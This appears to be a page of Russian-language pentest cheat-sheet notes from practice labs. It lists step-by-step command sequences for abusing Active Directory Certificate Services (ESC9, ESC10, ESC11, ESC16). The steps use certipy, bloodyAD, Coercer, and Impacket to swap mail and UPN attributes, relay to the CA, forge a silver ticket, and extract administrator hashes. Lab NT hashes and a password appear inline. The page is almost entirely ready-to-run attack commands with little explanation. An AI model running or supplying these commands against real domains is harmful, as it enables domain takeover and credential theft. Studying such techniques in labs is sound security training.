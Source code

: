 *** ESC 9 	
		Сменим почту d.baker​ на h.brown@scepter.htb​:
		
   		bloodyAD -d scepter.htb -u a.carter -p Password123 --host dc01.scepter.htb set object d.baker mail -v h.brown@scepter.htb
		
  		certipy req -username "d.baker@scepter.htb" -hashes 18b5fb0d99e7a475316213c15b6f22ce -target "dc01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'
		
  		certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip $(cat /etc/hosts | grep scepter.htb | cut -d ' ' -f 1) -username h.brown

*** ESC 10   	

		чтобы проверить esc 10 пишем	
			reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL" /v CertificateMappingMethods
   			
	  должно быть
			HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL
 		   CertificateMappingMethods    REG_DWORD    0x4
	  
*** ESC 11
		
  		certipy relay -target "rpc://172.16.117.3" -ca "INLANEFREIGHT-DC01-CA" (рилеим еа CA но по RPC)
  		Coercer coerce -t 172.16.117.50 -l 172.16.117.30 -u 'nports' -d inlanefreight.local -v --hashes aad3b435b51404eeaad3b435b51404ee:ac49e22c2d9bf1e154aef4081300273b --always-continue
    		certipy auth -pfx ws01.pfx -dc-ip 172.16.117.3  (чтобы получить NT hash)
		Затем делаем СЕРЕБРЯННЫЙ БИЛЕТ
		lookupsid.py 'INLANEFREIGHT.LOCAL/WS01$'@172.16.117.3 -hashes :3d3a72af94548ebc7755287a88476460 (узнаем SID домена)
  		Создаем СЕРЕБРЯННЫЙ БИЛЕТ в качестве Администратора
  		ticketer.py -nthash 3d3a72af94548ebc7755287a88476460 -domain-sid S-1-5-21-1207890233-375443991-2397730614 -domain inlanefreight.local -spn cifs/ws01.inlanefreight.local Administrator
		и заходим....
		KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass ws01.inlanefreight.local
*** ESC 16 
		Прочитаем атрибуты пользователя CA_SVC
  		certipy account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69
    		
		Поменяем UPN на administrator​:
		certipy account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update

		И теперь выпишем себе тикет на нужного пользователя administrator​:
  		certipy req -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
    
    		Теперь важно вернуть обратно UPN на изначальный:
		certipy account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update

		
		И последним шагом достаем хеш пользователя administrator​:
  		certipy auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb' -dc-ip 10.10.11.69
